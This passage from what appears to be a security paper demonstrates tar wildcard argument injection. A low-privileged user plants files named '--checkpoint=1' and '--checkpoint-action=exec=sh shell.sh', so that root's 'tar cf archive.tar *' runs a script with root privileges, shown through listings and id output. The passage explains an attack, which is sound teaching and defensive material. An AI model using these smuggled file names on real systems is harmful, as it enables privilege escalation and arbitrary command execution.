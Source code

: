 Check the following directory:

[root@defensecode public]# ls -al
total 72
drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
drwx------. 24 user user  4096 Oct 28 18:32 ..
-rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
-rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
-rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
-rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
-rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
-rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
-rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
-rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
-rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Now, for example, root user wants to create archive of all files in current
directory.

[root@defensecode public]# tar cf archive.tar *

uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command
execution under root privileges.
Once again, there are few files created by user 'leon'.

-rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
-rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
-rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the
'tar' program as command line options. Basically, they command tar to execute shell.sh
shell script upon the execution.

[root@defensecode public]# cat shell.sh
/usr/bin/id

So, with this tar argument pollution, we can basically execute arbitrary commands
with privileges of the user that runs tar. As demonstrated on the 'root' account above.




===[ 4.4 Rsync arbitrary command execution
